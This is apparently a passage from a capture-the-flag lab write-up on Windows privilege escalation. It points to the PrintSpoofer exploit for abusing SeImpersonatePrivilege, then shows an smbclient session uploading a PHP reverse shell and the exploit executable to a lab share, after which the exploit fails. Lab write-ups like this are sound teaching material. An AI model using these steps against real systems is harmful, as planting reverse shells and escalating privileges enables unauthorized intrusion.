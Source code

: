 ## Privilege Escalation

#### PrintSpoofer fail
From the first command I ran on the box ```whoami /all``` I noticed we had SeImpersonatePrivilege token enabled which is usually an insta-win with the Potato exploits and the newer PrintSpoofer exploit. Fantastic article https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

We can go to itm4n's github to download the exploit --> https://github.com/itm4n/PrintSpoofer/releases

Note: My VPN went down so I had to restart everything

Next we can upload the `PrintSpoofer64` executable by mounting to the open smbshare.

```console
┌──(viorage㉿kali)-[~/…/Tech/php-reverse-shell/src/reverse]
└─$ smbclient \\\\10.10.99.25\\images$
Enter WORKGROUP\viorage's password: 
Try "help" to get a list of possible commands.
smb: \> put php_reverse_shell.php
putting file php_reverse_shell.php as \php_reverse_shell.php (7.7 kb/s) (average 7.7 kb/s)
smb: \> dir
  .                                   D        0  Fri Apr 22 09:58:02 2022
  ..                                  D        0  Fri Apr 22 09:58:02 2022
  internet-1028794_1920.jpg           A   134193  Sun Jan 10 16:52:24 2021
  man-1459246_1280.png                A   363259  Sun Jan 10 16:50:49 2021
  monitor-1307227_1920.jpg            A   691570  Sun Jan 10 16:50:29 2021
  neon-sign-4716257_1920.png          A  1461192  Sun Jan 10 16:53:59 2021
  php_reverse_shell.php               A     9302  Fri Apr 22 09:58:02 2022
  PrintSpoofer64.exe                  A    27136  Fri Apr 22 09:57:19 2022

                10861311 blocks of size 4096. 4142259 blocks available
smb: \> 
```


I ran the exploit several times but it failed for me.

![fail](fail.png)
